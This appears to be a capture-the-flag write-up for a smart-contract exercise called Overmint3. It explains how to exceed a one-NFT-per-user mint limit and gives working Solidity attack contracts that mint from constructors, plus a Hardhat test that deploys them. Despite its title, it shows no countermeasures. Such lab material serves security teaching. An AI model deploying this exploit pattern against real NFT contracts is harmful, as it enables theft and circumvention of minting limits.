 # Title: Overminting NFTs in One Transaction: Exploit and Countermeasures

# Goal: Get a balance of 5 NFTs instead of 1

# Description:

The Overmint3 smart contract has a vulnerability that enables an attacker to obtain multiple NFTs within a single transaction, bypassing the intended limit of one NFT per user. This issue stems from insufficient checks during the minting process.

# Exploit:

An attacker can craft a smart contract (BatchNFTMinter) which, when deployed, instantiates multiple instances of another contract (IndividualNFTMinter).

```solidity
contract BatchNFTMinter {
    Overmint3 target;
    uint256 attackCounter = 1;

    constructor(address _target, address _player) {
        target = Overmint3(_target);
        while (attackCounter < 6) {
            attackCounter++;
            new IndividualNFTMinter(_target, _player);
        }
    }
}

contract IndividualNFTMinter {
    Overmint3 target;

    constructor(address _target, address _player) {
        target = Overmint3(_target);
        target.mint();
        target.safeTransferFrom(address(this), _player, target.totalSupply());
    }
}

```

Each IndividualNFTMinter contract instance then mints a new NFT from the Overmint3 contract and transfers it to the attacker's wallet address. As the minting and transfer take place within the constructor of the IndividualNFTMinter contract, the whole operation occurs in just one transaction.

```solidity
it("conduct your attack here", async function () {
  const BatchNFTMinterFactory = await ethers.getContractFactory(
    "BatchNFTMinter",
    attackerWallet
  );
  await BatchNFTMinterFactory.deploy(
    victimContract.address,
    attackerWallet.address
  );
});


```
